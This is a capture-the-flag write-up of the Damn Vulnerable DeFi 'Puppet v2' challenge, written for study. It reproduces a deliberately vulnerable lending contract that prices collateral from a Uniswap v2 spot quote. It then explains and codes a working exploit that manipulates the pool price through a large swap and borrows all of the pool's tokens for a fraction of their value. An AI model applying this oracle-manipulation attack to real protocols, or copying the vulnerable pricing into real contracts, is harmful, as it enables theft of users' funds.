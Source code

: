 #+AUTHOR: Francesco Cannarozzo
* Puppet v2
** Statement
   Just like the previous challenge, but with an Uniswap v2 pool.
** Files
*** PuppetV2Pool.sol
**** Code
     #+BEGIN_SRC solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "@uniswap/v2-periphery/contracts/libraries/UniswapV2Library.sol";
import "@uniswap/v2-periphery/contracts/libraries/SafeMath.sol";

interface IERC20 {
    function transfer(address to, uint256 amount) external returns (bool);
    function transferFrom(address from, address to, uint256 amount) external returns (bool);
    function balanceOf(address account) external returns (uint256);
}

/**
 * @title PuppetV2Pool
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract PuppetV2Pool {
    using SafeMath for uint256;

    address private _uniswapPair;
    address private _uniswapFactory;
    IERC20 private _token;
    IERC20 private _weth;
    
    mapping(address => uint256) public deposits;
        
    event Borrowed(address indexed borrower, uint256 depositRequired, uint256 borrowAmount, uint256 timestamp);

    constructor (
        address wethAddress,
        address tokenAddress,
        address uniswapPairAddress,
        address uniswapFactoryAddress
    ) public {
        _weth = IERC20(wethAddress);
        _token = IERC20(tokenAddress);
        _uniswapPair = uniswapPairAddress;
        _uniswapFactory = uniswapFactoryAddress;
    }

    /**
     * @notice Allows borrowing `borrowAmount` of tokens by first depositing three times their value in WETH
     *         Sender must have approved enough WETH in advance.
     *         Calculations assume that WETH and borrowed token have same amount of decimals.
     */
    function borrow(uint256 borrowAmount) external {
        require(_token.balanceOf(address(this)) >= borrowAmount, "Not enough token balance");

        // Calculate how much WETH the user must deposit
        uint256 depositOfWETHRequired = calculateDepositOfWETHRequired(borrowAmount);
        
        // Take the WETH
        _weth.transferFrom(msg.sender, address(this), depositOfWETHRequired);

        // internal accounting
        deposits[msg.sender] += depositOfWETHRequired;

        require(_token.transfer(msg.sender, borrowAmount));

        emit Borrowed(msg.sender, depositOfWETHRequired, borrowAmount, block.timestamp);
    }

    function calculateDepositOfWETHRequired(uint256 tokenAmount) public view returns (uint256) {
        return _getOracleQuote(tokenAmount).mul(3) / (10 ** 18);
    }

    // Fetch the price from Uniswap v2 using the official libraries
    function _getOracleQuote(uint256 amount) private view returns (uint256) {
        (uint256 reservesWETH, uint256 reservesToken) = UniswapV2Library.getReserves(
            _uniswapFactory, address(_weth), address(_token)
        );
        return UniswapV2Library.quote(amount.mul(10 ** 18), reservesToken, reservesWETH);
    }
}

     #+END_SRC
**** Breakdown
***** State
      the pool handles swaps of wETH with tokens.
      References to these are passed to the constructor as addresses, and memorized as *IERC20*.
      Along with those, we pass addresses of a UniswapPair and an UniswapFactory.
***** borrow
      Allows borrowing /amount/ of token by depositing three times their value in wETH.
      to do so, after requiring the pool to hold enough tokens to give out,
      the required deposit is calculated through *calculateDepositOfWETHRequired()*.
      The calculated amount of wETH is then transferred from *msg.sender* to the pool,
      and after *deposits[msg.sender]* is updated,
      the appropriate event is emitted.
***** calculateDepositOfWETHRequired
      calls onto private function *_getOracleQuote()* for thrice the /tokenAmount/ passed in,
      multiplied by it's decimals.
***** _getOracleQuote 
      this private method interfaces with *UniswapV2Library* to get the factory's current
      reserves for wETH and token, after which these values are used to obtain a quote
      from the library.
** Exploit
   In principle, we're going to try the same we did in V1; that is, we're going to
   exploit the fact that we have more resources than the uniswap contract.

   looking at *UniswapV2Library.sol*, we can see how quotes are computed:

   #+BEGIN_SRC solidity
     function quote(uint amountA, uint reserveA, uint reserveB) internal pure returns (uint amountB) {
        require(amountA > 0, 'UniswapV2Library: INSUFFICIENT_AMOUNT');
        require(reserveA > 0 && reserveB > 0, 'UniswapV2Library: INSUFFICIENT_LIQUIDITY');
        amountB = amountA.mul(reserveB) / reserveA;
    }
   #+END_SRC

   we can easily see that, by making *reserveB* very small, however nonzero, we can make *amountB* very small.

   as the contract's *_getOracleQuote()* appears to be calling onto this quote function using 
   *reserversWETH* as *amountB*, we just need to take most WETH out of the uniswap pair,
   swapping the coins we already own through the router,
   and then carry out the borrow at a very, very, discounted price. In brief:

   #+BEGIN_SRC javascript
       it('Exploit', async function () {
        await this.token.connect(attacker).approve(this.uniswapRouter.address, ATTACKER_INITIAL_TOKEN_BALANCE)
        

        await this.uniswapRouter.connect(attacker).swapExactTokensForETH(
            ATTACKER_INITIAL_TOKEN_BALANCE,
            ethers.utils.parseEther("9"),
            [this.token.address, this.weth.address],
            attacker.address,
            (await ethers.provider.getBlock('latest')).timestamp * 2
        )

       let newPrice = ethers.BigNumber.from(await this.lendingPool.calculateDepositOfWETHRequired(POOL_INITIAL_TOKEN_BALANCE))

 

      expect(newPrice).to.be.lt(await ethers.provider.getBalance(attacker.address))

      await this.weth.connect(attacker).deposit({value:newPrice});

      await this.weth.connect(attacker).approve(this.lendingPool.address, await this.weth.balanceOf(attacker.address))

      await this.lendingPool.connect(attacker).borrow(POOL_INITIAL_TOKEN_BALANCE)

     
    });
   #+END_SRC
   
